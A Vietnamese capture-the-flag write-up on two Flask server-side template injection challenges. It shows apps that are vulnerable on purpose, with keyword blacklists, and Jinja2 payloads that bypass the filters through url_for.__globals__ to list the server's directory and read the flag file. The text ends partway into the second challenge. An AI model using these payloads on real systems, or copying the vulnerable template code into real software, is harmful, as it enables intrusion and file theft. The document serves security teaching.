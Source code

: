 # Web-vkl CTF
## vkl ssti1
### Dạng bài ssti1:
Source code:

```
from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!--flag in /flag.txt-->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9999)
```
Nhìn vào source bài này thì mình thấy rất nhiều từ cần thiết đã bị filter, nên khả thi nhất lúc này là sử dụng:

```{{url_for.__globals__.__builtins__.open("filename").read()}}```

Nhưng ở đây có một vấn đề là ở đây cả `'` và `"` đều bị filter nên chúng ta không thể truyền được filename vào, mấu chốt của
của bài này là chúng ta phải giải quyết được chỗ này.

Trước tiên xác nhận xem flag có ở trong `/flag.txt` như tác giả nói hay không

```
{{url_for.__globals__.os.__dict__}}
```

![](img1.png)

Sử dụng `listdir()` để xem các file hiện tại:

```{{url_for.__globals__.os.__dict__.listdir()}}```

![](img2.png)

Vậy tác giả đã lừa chúng ta flag thực sự không nằm trong `/flag.txt` mà là `flag.txt`

Khi chúng ta truyền chuỗi vào thì `('a','b','c')|join` sẽ tương đương với `'abc'`

Nên tới đây mình sẽ sử dụng `chr` để chuyển về kí tự ascii sau đó dùng `join` để có được một chuỗi truyền vào.

Vậy chuỗi chúng ta truyền vào sẽ là: 

`(chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join`

Nhưng ở đây có một lưu ý là để sử dụng `chr` thì chúng ta phải gọi được built-in function `chr` ra trước:

`{% set chr=url_for.__globals__.__builtins__.chr %}`

Final payload:

```{% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__.__builtins__.open((chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join).read()}}```

![](img3.png)

### Flag: web-vkl{filter_is_not_enough}

## vkl ssti2
### Dạng bài: ssti
Source code:
```

from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'builtins','attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!-- -->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9998)

```
Về cơ bản thì source code bài này giống với bài ssti 1 chỉ có một thay đổi là bị filter thêm chữ `builtins`.

...
